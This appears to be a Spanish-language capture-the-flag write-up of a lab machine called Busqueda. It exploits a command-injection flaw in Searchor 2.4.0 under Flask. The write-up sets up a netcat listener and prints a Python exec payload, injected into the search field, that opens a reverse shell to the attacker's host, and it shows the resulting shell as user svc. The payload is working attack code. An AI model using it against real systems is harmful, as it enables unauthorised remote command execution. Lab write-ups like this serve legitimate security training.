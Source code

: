 Vemos que se está empleando `Flask` y `Searchor 2.4.0`

![](/assets/img/Busqueda/image_3.png)

## Web Exploitation

He encontrado la forma de `ejecutar comandos` en versiones iguales o inferiores a la 2.4.2 [https://github.com/jonnyzar/POC-Searchor-2.4.2.git](https://github.com/jonnyzar/POC-Searchor-2.4.2.git). Lo primero que debemos hacer es ponernos en `escucha` con `netcat`

```
# nc -nlvp 9001
```

Debemos `inyectar` este `payload` en la `búsqueda` de `Search`

![](/assets/img/Busqueda/image_4.png)

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.28',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

`Recibimos` una `shell`

```
# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.228.217] 37830
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```
